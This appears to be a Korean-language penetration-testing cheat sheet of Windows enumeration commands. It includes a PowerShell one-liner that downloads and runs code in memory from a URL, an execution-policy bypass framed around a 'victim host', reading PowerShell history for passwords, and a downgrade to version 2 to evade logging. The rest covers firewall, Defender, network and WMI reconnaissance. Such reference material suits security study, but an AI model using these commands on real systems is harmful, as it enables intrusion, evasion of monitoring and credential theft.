 ```
| `Get-ExecutionPolicy -List`                                                                                                | 호스트의 각 범위에 대한 [실행 정책](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2) 설정을 인쇄합니다 . |
| `Set-ExecutionPolicy Bypass -Scope Process`                                                                                | 이렇게 하면 `-Scope` 매개변수를 사용하여 현재 프로세스의 정책이 변경됩니다. 이렇게 하면 프로세스를 비우거나 종료하면 정책이 원래대로 돌아갑니다. 피해자 호스트에 영구적인 변경을 하지 않기 때문에 이상적입니다.                                          |
| `Get-ChildItem Env: \| ft Key,Value`                                                                                       | 키 경로, 사용자, 컴퓨터 정보 등의 환경 값을 반환합니다.                                                                                                                                  |
| `Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt`                                 | 이 문자열을 사용하면 지정된 사용자의 PowerShell 기록을 가져올 수 있습니다. 명령 기록에 비밀번호가 포함되어 있거나 비밀번호가 포함된 구성 파일이나 스크립트를 가리킬 수 있으므로 매우 유용할 수 있습니다.                                            |
| `powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"` | 이것은 PowerShell을 사용하여 웹에서 파일을 다운로드하고 메모리에서 호출하는 빠르고 쉬운 방법입니다.                                                                                                       |

```Get-Module```<br/>
```Get-ExecutionPolicy -List```<br/>
```whoami```<br/>
```Get-ChildItem Env: | ft key,value```

### Powershell 다운그레이드 (로깅 우회용)
```powershell.exe -version 2``` : 명령 실행 자체는 흔적 남음<br/>
```Get-host```

### Firewall 체크
```netsh advfirewall show allprofiles```

### Windows Defender 체크
```sc query windefend```     # 실행 여부 확인(from CMD.exe)<br/>
```Get-MpComputerStatus```   # 상태 및 구성 확인

### 로그인한 다른 사용자 확인
```qwinsta```

### 네트워크 정보

| **명령**                             | **설명**                                                        |
| ------------------------------------ | ------------------------------------------------------------- |
| `arp -a`                             | arp 테이블에 저장된 모든 알려진 호스트를 나열합니다.                               |
| `ipconfig /all`                      | 호스트에 대한 어댑터 설정을 출력합니다. 여기서 네트워크 세그먼트를 알아낼 수 있습니다.             |
| `route print`                        | 호스트와 공유되는 알려진 네트워크와 3계층 경로를 식별하는 라우팅 테이블(IPv4 및 IPv6)을 표시합니다. |
| `netsh advfirewall show allprofiles` | 호스트 방화벽의 상태를 표시합니다. 활성화되어 있고 트래픽을 필터링하고 있는지 확인할 수 있습니다.       |

### WMI 체크

| **명령**                                                                               | **설명**                                       |
| ------------------------------------------------------------------------------------ | -------------------------------------------- |
| `wmic qfe get Caption,Description,HotFixID,InstalledOn`                              | 적용된 핫픽스의 패치 레벨과 설명을 인쇄합니다.                   |
| `wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List` | 목록 내의 모든 속성을 포함하도록 기본 호스트 정보를 표시합니다.         |
| `wmic process list /format:list`                                                     | 호스트의 모든 프로세스 목록                              |
| `wmic ntdomain list /format:list`                                                    | 도메인 및 도메인 컨트롤러에 대한 정보를 표시합니다.                |
```